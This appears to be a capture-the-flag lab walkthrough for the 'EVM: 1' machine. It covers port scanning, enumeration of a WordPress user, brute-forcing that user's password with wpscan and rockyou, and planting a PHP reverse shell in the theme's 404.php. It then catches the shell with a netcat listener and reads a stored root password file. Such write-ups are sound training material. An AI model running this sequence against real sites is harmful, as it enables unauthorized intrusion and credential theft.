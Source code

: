 # EVM: 1

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:12	(Unknown: locally administered)
192.168.56.100	08:00:27:fe:d5:08	PCS Systemtechnik GmbH
192.168.56.103	08:00:27:26:e3:c3	PCS Systemtechnik GmbH
```

The ip address is `192.168.56.103`, let's enumerate it


### 2.Enumeration

```bash
root@kali: nmap -sT -sV -sC -v -p- -oN nmap.out 192.168.56.103
Nmap scan report for 192.168.56.103
Host is up (0.0020s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:d3:34:13:62:b1:18:a3:dd:db:35:c5:5a:b7:c0:78 (RSA)
|   256 85:48:53:2a:50:c5:a0:b7:1a:ee:a4:d8:12:8e:1c:ce (ECDSA)
|_  256 36:22:92:c7:32:22:e3:34:51:bc:0e:74:9f:1c:db:aa (ED25519)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: CAPA RESP-CODES UIDL SASL AUTH-RESP-CODE PIPELINING TOP
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: LOGIN-REFERRALS IMAP4rev1 Pre-login LOGINDISABLEDA0001 IDLE SASL-IR listed ENABLE ID OK have more capabilities LITERAL+ post-login
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
MAC Address: 08:00:27:26:E3:C3 (Oracle VirtualBox virtual NIC)
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m58s, deviation: 2h18m33s, median: -1s
| smb2-time: 
|   date: 2024-04-27T09:57:49
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: ubuntu-extermely-vulnerable-m4ch1ine
|   NetBIOS computer name: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE\x00
|   Domain name: \x00
|   FQDN: ubuntu-extermely-vulnerable-m4ch1ine
|_  System time: 2024-04-27T05:57:49-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: UBUNTU-EXTERMEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   UBUNTU-EXTERMEL<00>  Flags: <unique><active>
|   UBUNTU-EXTERMEL<03>  Flags: <unique><active>
|   UBUNTU-EXTERMEL<20>  Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

Let's check for port 80, which is a default apache page, try to fuzz the website and you find `/wordpress`

try to enumerate the wordpress site :

```bash
root@kali: wpscan --url http://192.168.56.103/wordpress -e u,vp

[i] User(s) Identified:

[+] c0rrupt3d_brain
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.56.103/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

we found a user, `c0rrupt3d_brain`, we can check for brute force attack on this user:

```bash
root@kali: wpscan --url http://192.168.56.103/wordpress -U user.txt -P /usr/share/wordlists/rockyou.txt
```

and yes, it finds password, `24992499`, and we can login to wordpress panel by this user

after logging in try to access `Appearance -> Theme Editor -> 404.php` and upload a php reverse shell

and a netcat listener to get the shell

### 3.Gaining Shell

After uploading the shell, navigate to `http://192.168.56.103/wordpress/wp-content/themes/twentynineteen/404.php` and you will get the shell :

```bash
root@kali: nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.103] 57284
Linux ubuntu-extermely-vulnerable-m4ch1ine 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:28:54 up 35 min,  0 users,  load average: 0.02, 0.86, 1.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 4.Privilege Escalation

Try to enumerate the system with `linpease.sh` and it finds a password file in home directory under `/home/root3r/.root_password_ssh.txt` which contains the root password :

```bash
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ cat .root_password_ssh.txt 
willy26
```

now just switch to root account :

```bash
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ su root
Password:

root@ubuntu-extermely-vulnerable-m4ch1ine:~# ls
proof.txt

root@ubuntu-extermely-vulnerable-m4ch1ine:~# cat proof.txt 
voila you have successfully pwned me :) !!!
:D
```

This is how you can get root on this machine :)



